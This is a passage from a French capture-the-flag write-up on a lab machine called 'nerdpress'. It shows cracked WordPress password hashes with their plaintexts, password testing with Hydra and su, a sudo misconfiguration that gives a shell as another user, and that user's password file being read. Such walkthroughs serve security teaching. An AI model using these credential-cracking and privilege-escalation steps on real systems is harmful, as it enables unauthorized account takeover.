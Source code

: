 Evidemment cela ne nous sert à rien de casser ces hashs à moins qu'ils soient utilisés aussi pour des comptes locaux :  

```plain
www-data@nerdpress:/var/www/html$ cat /etc/passwd | grep home 
syslog:x:104:110::/home/syslog:/usr/sbin/nologin 
nerd:x:1000:1000:nerd:/home/nerd:/bin/bash 
bgates:x:1001:1001:,,,:/home/bgates:/bin/bash 
sjobs:x:1002:1002:,,,:/home/sjobs:/bin/bash 
swozniak:x:1003:1003:,,,:/home/swozniak:/bin/bash 
pallen:x:1004:1004:,,,:/home/pallen:/bin/bash
```

C'est d'autant plus intéressant que les permissions ne nous laissent rien voir :  

```plain
drwx------  2 bgates   bgates   4096 Jan 20 21:19 bgates 
drwx------  3 nerd     nerd     4096 Jan 20 21:39 nerd 
drwx------  2 pallen   pallen   4096 Jan 20 22:32 pallen 
drwx------  2 sjobs    sjobs    4096 Jan 20 21:39 sjobs 
drwx------  3 swozniak swozniak 4096 Jan 20 22:33 swozniak
```

A l'aide de [PengLab](https://github.com/mxrch/penglab) j'ai cassé quatre de ces hashs :  

```plain
$P$Bmj3.4ODmeffIV6hu/qhHTjI5tZ8Em/:liverpool08
$P$Bb9ECl53eqtuyJURHJ/8KrzIYVukpN0:mariaisabel
$P$BnovC0hZWOV/GmkDYvcJjsKTa0zDZW1:ilovebill
$P$Bx9aLfMHwSzWdZm0fwSNQyB8cEr7Uc/:jazzy123
```

Ces mots de passe ne fonctionnent pas avec SSH (je les ai testé avec THC-Hydra) mais sont acceptés via la commande *su*.  

Les comptes *bgates* et *sjobs* ne contiennent rien d'intéressant mais *pallen* peut obtenir un shell pour *swozniak*, le seul pour qui l'on ne disposait pas de mot de passe fonctionnel.  

```plain
pallen@nerdpress:/var/www/html$ sudo -l 
Matching Defaults entries for pallen on nerdpress: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 

User pallen may run the following commands on nerdpress: 
    (swozniak) NOPASSWD: /usr/bin/bash
pallen@nerdpress:/var/www/html$ sudo -u swozniak /usr/bin/bash 
swozniak@nerdpress:/var/www/html$ cd 
swozniak@nerdpress:~$ ls -al 
total 28 
drwx------ 3 swozniak swozniak 4096 Jan 20 22:33 . 
drwxr-xr-x 7 root     root     4096 Jan 20 22:16 .. 
lrwxrwxrwx 1 swozniak swozniak    9 Jan 20 21:38 .bash_history -> /dev/null 
-rw-r--r-- 1 swozniak swozniak  220 Jan 20 21:18 .bash_logout 
-rw-r--r-- 1 swozniak swozniak 3771 Jan 20 21:18 .bashrc 
drwx------ 2 swozniak swozniak 4096 Jan 20 21:38 .cache 
-rw-r--r-- 1 swozniak swozniak  807 Jan 20 21:18 .profile 
-rw------- 1 swozniak swozniak   12 Jan 20 22:15 .wozpazz
swozniak@nerdpress:~$ cat .wozpazz  
123123jazzy 
```
